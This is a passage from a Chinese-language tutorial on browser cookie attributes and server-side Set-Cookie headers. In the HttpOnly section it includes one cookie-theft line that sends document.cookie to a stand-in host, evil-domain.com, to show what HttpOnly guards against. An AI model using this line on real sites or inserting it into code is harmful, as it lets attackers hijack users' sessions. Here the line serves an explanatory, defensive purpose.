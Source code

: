 **4. cookie的属性有哪些？**

- Expires：cookie的过期时间，过期后，浏览器将删除这个cookie。它的值是UTC格式。可以使用Date.prototype.toUTCString()转换格式。如果不设置设个属性或设为null，则是session cookie。另外浏览器是根据本地时间决定cookie是否过期，所以cookie没办法保证是在服务器指定时间过期。

```javascript
document.cookie = 'age=12;expires=' + new Date('2019-9-1')
// "age=12;expires=Sun Sep 01 2019 00:00:00 GMT+0800 (CST)"

// 要加时区才行
document.cookie = 'age=12;expires=' + new Date('2019-9-1').toUTCString()
// "age=12;expires=Sat, 31 Aug 2019 16:00:00 GMT"
```

- Max-age：从现在开始过多少秒后cookie过期，比如一年是`60 * 60 * 24 * 365`。如果同时指定了Expires和Max-Age，则Max-Age优先。如果没有指定，则是session cookie。
- Domain：指定发http请求时，哪些域名要附带这个cookie，如果没有指定，则默认是当前的一级域名，比如www.xx.com 会设为xx.com。所以访问xx.com的任何子域，http请求都会带这个cookie。如果Domain不属于当前域名，浏览器会拒绝这个cookie。当前发送 Cookie 的域名的一部分。
- Path：Path属性指定浏览器发出 HTTP 请求时，哪些路径要附带这个 Cookie。只要浏览器发现，Path属性是 HTTP 请求路径的开头一部分，就会在头信息里面带上这个 Cookie。比如，PATH属性是/，那么请求/docs路径也会包含该 Cookie。当然，前提是域名必须一致，是绝对路径。
- Secure：只能服务端写入。https下才会发送cookie。如果是http，浏览器会忽略从服务端发送来的Secure属性。该属性只是一个开关，不需要指定值。如果通信是 HTTPS 协议，该开关自动打开。
- HttpOnly：只能服务端写入。指定该 Cookie 无法通过 JavaScript 脚本拿到。通过document.cookie、XMLHttpRequest对象和Request API都获取不到，只有浏览器发出http请求时，才会带上该Cookie，该属性可以防止第三方恶意代码获取cookie。

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

**5. 服务端操作cookie**

服务端要设置cookie，需要在http头里设置`Set-Cookie`字段，可以包含多个。

```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry
```

除了值之外，还可以附加cookie的属性，一个Set-Cookie字段里面，可以同时包括多个属性，没有次序的要求。

```
Set-Cookie: <cookie-name>=<cookie-value>; Expires=<date>
Set-Cookie: <cookie-name>=<cookie-value>; Max-Age=<non-zero-digit>
Set-Cookie: <cookie-name>=<cookie-value>; Domain=<domain-value>
Set-Cookie: <cookie-name>=<cookie-value>; Path=<path-value>
Set-Cookie: <cookie-name>=<cookie-value>; Secure
Set-Cookie: <cookie-name>=<cookie-value>; HttpOnly

// 包括多个属性
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

如果服务器想改变一个早先设置的 Cookie，必须同时满足四个条件：Cookie 的key、domain、path和secure都匹配。举例来说，如果原始的 Cookie 是用如下的Set-Cookie设置的。

```
Set-Cookie: key1=value1; domain=example.com; path=/blog
```
